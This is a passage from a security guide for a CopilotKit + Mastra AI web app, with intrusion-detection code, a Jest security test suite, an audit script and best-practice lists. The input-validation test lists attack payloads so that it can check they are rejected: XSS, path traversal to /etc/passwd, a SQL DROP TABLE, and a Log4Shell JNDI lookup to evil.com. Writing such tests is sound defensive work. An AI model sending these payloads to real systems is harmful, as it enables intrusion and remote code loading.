      await this.redis.setex(`user_pattern:${userId}`, 86400 * 30, JSON.stringify(newPattern));
    } else {
      // Update existing pattern
      const updatedPattern: UserBehaviorPattern = {
        ...pattern,
        normalHours: [...new Set([...pattern.normalHours, currentHour])],
        normalLocations: [...new Set([...pattern.normalLocations, location])],
        typicalActions: [...new Set([...pattern.typicalActions, action])],
        lastSeen: new Date().toISOString(),
      };
      
      await this.redis.setex(`user_pattern:${userId}`, 86400 * 30, JSON.stringify(updatedPattern));
    }
  }
  
  private async getLocationFromIP(ip: string): Promise<string> {
    // Simple implementation - in production, use a proper IP geolocation service
    if (ip.startsWith('192.168.') || ip.startsWith('10.') || ip.startsWith('172.')) {
      return 'local';
    }
    
    // For demo purposes, return a mock location
    return 'unknown';
  }
  
  private async getRecentRequests(userId: string): Promise<any[]> {
    const key = `recent_requests:${userId}`;
    const requests = await this.redis.lrange(key, 0, -1);
    
    // Filter requests from last minute
    const oneMinuteAgo = Date.now() - 60 * 1000;
    return requests.filter(req => {
      const timestamp = JSON.parse(req as string).timestamp;
      return timestamp > oneMinuteAgo;
    });
  }
}

export const intrusionDetection = new IntrusionDetectionSystem();
```

## Security Testing & Auditing

### 1. Security Test Suite

**Security Tests:**
```typescript
// __tests__/security/security.test.ts
import { NextRequest } from 'next/server';
import { authenticateRequest } from '@/lib/auth';
import { checkRateLimit } from '@/lib/rate-limiting';
import { validateRequest } from '@/lib/validation';
import { piiProtection } from '@/lib/pii-protection';

describe('Security Tests', () => {
  describe('Authentication', () => {
    test('should reject requests without API key', async () => {
      const request = new NextRequest('http://localhost:3000/api/test');
      const auth = await authenticateRequest(request);
      expect(auth).toBeNull();
    });
    
    test('should reject invalid API keys', async () => {
      const request = new NextRequest('http://localhost:3000/api/test', {
        headers: { 'x-api-key': 'invalid-key' },
      });
      const auth = await authenticateRequest(request);
      expect(auth).toBeNull();
    });
  });
  
  describe('Rate Limiting', () => {
    test('should enforce rate limits', async () => {
      const request = new NextRequest('http://localhost:3000/api/test');
      
      // Make requests up to the limit
      for (let i = 0; i < 100; i++) {
        const result = await checkRateLimit(request);
        if (i < 99) {
          expect(result.success).toBe(true);
        } else {
          expect(result.success).toBe(false);
        }
      }
    });
  });
  
  describe('Input Validation', () => {
    test('should reject malicious input', async () => {
      const maliciousInputs = [
        '<script>alert("xss")</script>',
        'javascript:alert("xss")',
        '../../etc/passwd',
        'DROP TABLE users;',
        '${jndi:ldap://evil.com/a}',
      ];
      
      for (const input of maliciousInputs) {
        const request = new NextRequest('http://localhost:3000/api/test', {
          method: 'POST',
          body: JSON.stringify({ query: input }),
        });
        
        await expect(
          validateRequest(z.object({ query: z.string().max(100) }))(request)
        ).rejects.toThrow();
      }
    });
  });
  
  describe('PII Protection', () => {
    test('should detect PII in text', () => {
      const text = 'Contact John Doe at john.doe@example.com or 555-123-4567';
      const detected = piiProtection.detectPII(text);
      
      expect(detected).toHaveLength(2);
      expect(detected[0].type).toBe('email');
      expect(detected[1].type).toBe('phone');
    });
    
    test('should mask PII in text', () => {
      const text = 'Contact John Doe at john.doe@example.com or 555-123-4567';
      const masked = piiProtection.maskPII(text);
      
      expect(masked).not.toContain('john.doe@example.com');
      expect(masked).not.toContain('555-123-4567');
      expect(masked).toContain('j***@example.com');
      expect(masked).toContain('***-***-****');
    });
  });
});
```

### 2. Security Audit Checklist

**Automated Security Checks:**
```typescript
// scripts/security-audit.ts
import fs from 'fs';
import path from 'path';
import { execSync } from 'child_process';

interface SecurityCheck {
  name: string;
  description: string;
  check: () => Promise<{ passed: boolean; details?: string }>;
}

class SecurityAuditor {
  private checks: SecurityCheck[] = [
    {
      name: 'Environment Variables',
      description: 'Check for secure environment variable configuration',
      check: this.checkEnvironmentVariables,
    },
    {
      name: 'Dependencies',
      description: 'Check for vulnerable dependencies',
      check: this.checkDependencies,
    },
    {
      name: 'HTTPS Configuration',
      description: 'Verify HTTPS is properly configured',
      check: this.checkHTTPSConfiguration,
    },
    {
      name: 'Security Headers',
      description: 'Check for proper security headers',
      check: this.checkSecurityHeaders,
    },
    {
      name: 'Input Validation',
      description: 'Verify input validation is implemented',
      check: this.checkInputValidation,
    },
  ];
  
  async runAudit(): Promise<void> {
    console.log('🔒 Starting Security Audit...\n');
    
    let passedChecks = 0;
    const totalChecks = this.checks.length;
    
    for (const check of this.checks) {
      console.log(`Checking: ${check.name}`);
      console.log(`Description: ${check.description}`);
      
      try {
        const result = await check.check();
        
        if (result.passed) {
          console.log('✅ PASSED');
          passedChecks++;
        } else {
          console.log('❌ FAILED');
          if (result.details) {
            console.log(`Details: ${result.details}`);
          }
        }
      } catch (error) {
        console.log('❌ ERROR');
        console.log(`Error: ${error.message}`);
      }
      
      console.log('');
    }
    
    console.log(`\n📊 Audit Results: ${passedChecks}/${totalChecks} checks passed`);
    
    if (passedChecks === totalChecks) {
      console.log('🎉 All security checks passed!');
    } else {
      console.log('⚠️  Some security checks failed. Please review and fix the issues.');
      process.exit(1);
    }
  }
  
  private async checkEnvironmentVariables(): Promise<{ passed: boolean; details?: string }> {
    const requiredVars = [
      'GOOGLE_GENERATIVE_AI_API_KEY',
      'UPSTASH_REDIS_REST_URL',
      'UPSTASH_REDIS_REST_TOKEN',
      'JWT_SECRET',
      'ENCRYPTION_KEY',
    ];
    
    const missingVars = requiredVars.filter(varName => !process.env[varName]);
    
    if (missingVars.length > 0) {
      return {
        passed: false,
        details: `Missing environment variables: ${missingVars.join(', ')}`,
      };
    }
    
    // Check for weak secrets
    const jwtSecret = process.env.JWT_SECRET;
    if (jwtSecret && jwtSecret.length < 32) {
      return {
        passed: false,
        details: 'JWT_SECRET should be at least 32 characters long',
      };
    }
    
    return { passed: true };
  }
  
  private async checkDependencies(): Promise<{ passed: boolean; details?: string }> {
    try {
      execSync('npm audit --audit-level=high', { stdio: 'pipe' });
      return { passed: true };
    } catch (error) {
      return {
        passed: false,
        details: 'High or critical vulnerabilities found in dependencies',
      };
    }
  }
  
  private async checkHTTPSConfiguration(): Promise<{ passed: boolean; details?: string }> {
    // Check Next.js configuration for HTTPS enforcement
    const nextConfigPath = path.join(process.cwd(), 'next.config.ts');
    
    if (!fs.existsSync(nextConfigPath)) {
      return {
        passed: false,
        details: 'next.config.ts not found',
      };
    }
    
    const configContent = fs.readFileSync(nextConfigPath, 'utf8');
    
    // Check for security headers configuration
    if (!configContent.includes('headers') || !configContent.includes('Strict-Transport-Security')) {
      return {
        passed: false,
        details: 'HTTPS security headers not configured in next.config.ts',
      };
    }
    
    return { passed: true };
  }
  
  private async checkSecurityHeaders(): Promise<{ passed: boolean; details?: string }> {
    const requiredHeaders = [
      'Content-Security-Policy',
      'X-Frame-Options',
      'X-Content-Type-Options',
      'Referrer-Policy',
      'Permissions-Policy',
    ];
    
    // This would typically check the actual HTTP response headers
    // For this example, we'll check if they're configured in the code
    const middlewarePath = path.join(process.cwd(), 'src/middleware.ts');
    
    if (!fs.existsSync(middlewarePath)) {
      return {
        passed: false,
        details: 'Security middleware not found',
      };
    }
    
    const middlewareContent = fs.readFileSync(middlewarePath, 'utf8');
    const missingHeaders = requiredHeaders.filter(header => 
      !middlewareContent.includes(header)
    );
    
    if (missingHeaders.length > 0) {
      return {
        passed: false,
        details: `Missing security headers: ${missingHeaders.join(', ')}`,
      };
    }
    
    return { passed: true };
  }
  
  private async checkInputValidation(): Promise<{ passed: boolean; details?: string }> {
    // Check if validation is implemented in API routes
    const apiDir = path.join(process.cwd(), 'src/app/api');
    
    if (!fs.existsSync(apiDir)) {
      return {
        passed: false,
        details: 'API directory not found',
      };
    }
    
    const apiFiles = this.getAllFiles(apiDir, '.ts');
    let validationFound = false;
    
    for (const file of apiFiles) {
      const content = fs.readFileSync(file, 'utf8');
      if (content.includes('z.object') || content.includes('validateRequest')) {
        validationFound = true;
        break;
      }
    }
    
    if (!validationFound) {
      return {
        passed: false,
        details: 'Input validation not found in API routes',
      };
    }
    
    return { passed: true };
  }
  
  private getAllFiles(dir: string, extension: string): string[] {
    const files: string[] = [];
    
    const items = fs.readdirSync(dir);
    for (const item of items) {
      const fullPath = path.join(dir, item);
      const stat = fs.statSync(fullPath);
      
      if (stat.isDirectory()) {
        files.push(...this.getAllFiles(fullPath, extension));
      } else if (item.endsWith(extension)) {
        files.push(fullPath);
      }
    }
    
    return files;
  }
}

// Run audit if called directly
if (require.main === module) {
  const auditor = new SecurityAuditor();
  auditor.runAudit().catch(console.error);
}
```

## Security Best Practices Summary

### 1. Development Practices
- **Secure by Design**: Build security into the architecture from the start
- **Principle of Least Privilege**: Grant minimum necessary permissions
- **Defense in Depth**: Implement multiple layers of security
- **Input Validation**: Validate and sanitize all user inputs
- **Output Encoding**: Properly encode outputs to prevent XSS

### 2. Authentication & Authorization
- **Strong Authentication**: Use multi-factor authentication where possible
- **Secure Session Management**: Implement secure session handling
- **Role-Based Access Control**: Implement granular permissions
- **Token Security**: Use secure JWT tokens with proper expiration
- **API Key Management**: Secure storage and rotation of API keys

### 3. Data Protection
- **Encryption**: Encrypt sensitive data at rest and in transit
- **PII Handling**: Implement proper PII detection and protection
- **Data Retention**: Implement data lifecycle management
- **Backup Security**: Secure backup and recovery processes
- **Privacy Compliance**: Ensure GDPR/CCPA compliance

### 4. Infrastructure Security
- **HTTPS Everywhere**: Enforce HTTPS for all communications
- **Security Headers**: Implement comprehensive security headers
- **Rate Limiting**: Protect against abuse and DDoS attacks
- **Monitoring**: Implement comprehensive security monitoring
- **Incident Response**: Have a clear incident response plan

### 5. Operational Security
- **Regular Updates**: Keep dependencies and systems updated
- **Security Testing**: Regular security testing and audits
- **Logging**: Comprehensive security event logging
- **Monitoring**: Real-time security monitoring and alerting
- **Training**: Regular security training for development team

This comprehensive security guide ensures that the CopilotKit + Mastra AI application is built with security as a fundamental principle, protecting both user data and system integrity.